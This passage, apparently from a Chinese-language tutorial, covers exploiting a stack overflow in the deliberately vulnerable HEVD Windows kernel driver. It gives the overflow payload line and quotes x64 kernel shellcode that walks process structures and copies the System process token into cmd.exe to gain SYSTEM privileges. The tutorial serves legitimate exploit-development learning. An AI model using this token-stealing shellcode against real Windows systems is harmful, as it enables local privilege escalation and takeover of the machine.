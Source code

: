 那么就是

```plain
"a"*0x810+p64(shellcode_addr)
```

## Shellcode+exp 编写

### A. shellcode

主要是用这篇：[Exploiting Windows 10 Kernel Drivers - Stack Overflow](https://blog.xpnsec.com/hevd-stack-overflow/) 或者里面参考的两篇

主要目的就是拿去 Token 然后替换掉一个 cmd.exe 的 Token 实现提权，**在下一篇文章中会详细提到**

> This time around we will pass the PID into the shellcode, which means that our tweaked shellcode will look like this:
> 
> ```plain
> [BITS 64]
> 
> push rax
> push rbx
> push rcx
> push rsi
> push rdi
> 
> mov rax, [gs:0x180 + 0x8]   ; Get 'CurrentThread' from KPRCB
> 
> mov rax, [rax + 0x220]       ; Get 'Process' property from current thread
> 
> next_process:
> cmp dword [rax + 0x2e0], 0x41414141  ; Search for 'cmd.exe' process ('AAAA' replaced by exploit)
> je found_cmd_process
> mov rax, [rax + 0x2e8]            ; If not found, go to next process
> sub rax, 0x2e8
> jmp next_process
> 
> found_cmd_process:
> mov rbx, rax                     ; Save our cmd.exe EPROCESS for later
> 
> find_system_process:
> cmp dword [rax + 0x2e0], 0x00000004  ; Search for PID 4 (System process)
> je found_system_process
> mov rax, [rax + 0x2e8]
> sub rax, 0x2e8
> jmp find_system_process
> 
> found_system_process:
> mov rcx, [rax + 0x358]            ; Take TOKEN from System process
> mov [rbx+0x358], rcx              ; And copy it to the cmd.exe process
> 
> pop rdi
> pop rsi
> pop rcx
> pop rbx
> pop rax
> 
> ; return goes here
> ```

